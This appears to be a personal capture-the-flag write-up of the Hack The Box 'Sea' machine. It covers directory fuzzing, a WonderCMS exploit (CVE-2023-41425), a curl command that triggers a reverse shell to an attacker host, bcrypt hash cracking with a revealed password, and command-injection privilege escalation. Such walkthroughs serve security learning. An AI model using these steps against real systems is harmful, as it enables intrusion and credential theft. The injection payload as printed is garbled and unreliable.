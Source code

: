 
2024-08-17 13:23

Source: #htb #CTF 
### Reconnaissance 

- `nmap` scan shows `22/tcp ssh` & `80/tcp http`
- the home page of the website isn't useful 
- on visiting the 2nd page we find a contact button that takes us to `contact.php`

`Contact.php` has a few input fields. The first thing that comes up in mind is XSS. 
trying out XSS payloads don't really do anything
### Enumeration

#### using Dirbuster

open the GUI version of Dirbuster and check the `use Blank Extension` box this will find sub-directories of sub-directories. we find `/themes/bike` gets `301` response. 
#### Alternate using [[ffuf]] 

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ
```
and further find sub-directories of sub-directories of `/themes` (`/themes` was one of the outputs of the above command) we choose `/themes` hoping to find a `cms` 
```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/themes/FUZZ
```
on running `ffuf` again we find a `/bike` directory that has a `301` response.

- we get a `403` error when trying to open this in the browser 
> - Try to put files after `/bike/` like `LICENSE`, `robots.txt`, `README.md` and fortunately `README.md` gave something interesting

- take the `GET` request made to `/themes/bike` that gave us `403` error 
- now in the burp repeater change the `GET` request to `/themes/bike/README.md` and hit
- in the response we see that we have instructions on how to use `WonderCMS`
- above in the dirbuster results we saw a `themes/bike/version` directory that gives us the version of the CMS on visiting the URL.
### Exploit

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the `installModule` component.
- we can get the script for this from github 

- running the exploit and having a netcat listener open doesn't give us a shell 
- we somehow have to trigger the `rev.php` file to make target server’s connection with our machine so, lets run this command in another terminal while having the listener on

I saw this line mentioned multiple times in the code `(“GET”, urlWithoutLogBase+”/themes/revshell-main/rev.php”)` So I just put target URL and gave it a shot!
```shell
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.57&lport=4444'
```

- we have `amay` and `geo` in the home directory 
- without further ado we run `Linpeas` on this 
- in the interesting files section we find a `/var/www/sea/data/database.js`
- on opening this file we find a password hash (possibly amay's ssh password)

[[Cryptography]] before running john through the password we need to reformat it by removing `\` in order to crack it successfully. use John The Ripper
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt filename.txt
```
### Privilege Escalation 

Run `Linpeas`... we don't really find anything
I then decided to check if there is anything on Amay’s local host. To do that there is a technique called [[Port Forwarding]]. It basically takes a user’s port and redirect it’s traffic to our port. run the following on your local machine 
```shell
ssh -L 4444:localhost:8080 amay@sea.htb
```
If you’re logged in, you’re good to go. If not, check what’s running on your localhost:4444 you can check that by this command:
```shell
sudo lsof -i :4444
```
If you see some other services, kill the PID and then try the [[ssh]] command again.

go to `localhost:4444` in your local browser and login with username as amay and password as mychemicalromance(cracked hash password)

we see a system monitoring page that is under development and we also see a analyze button that analyses the log files 
keep [[burpsuite]] on for rest of the process

- on capturing the request of analysis of the access.log we don't see anything useful
- we try command injection in the field that specifies the path of the log file in the burp request and get an error that says `suspicious traffic patterns detected` 

below is the URL encoded payload
```shell
log_file=/root/root.txt%3bcp/dev/shm/sudoers>+/etc/suoderskanalyze_log&analyze_log=
```
What this command did is that it inadvertently redirected the content of this file as output, which was then captured and displayed. The exposure occurred due to unintended side effects of the command’s syntax and execution.

### References
https://app.hackthebox.com/competitive/6/overview

walkthrough - https://medium.com/@haroonharoon17/sea-hack-the-box-walk-through-77b1030ce0bc

CMS exploit - [GitHub - prodigiousMind/CVE-2023-41425: WonderCMS Authenticated RCE - CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----77b1030ce0bc--------------------------------)

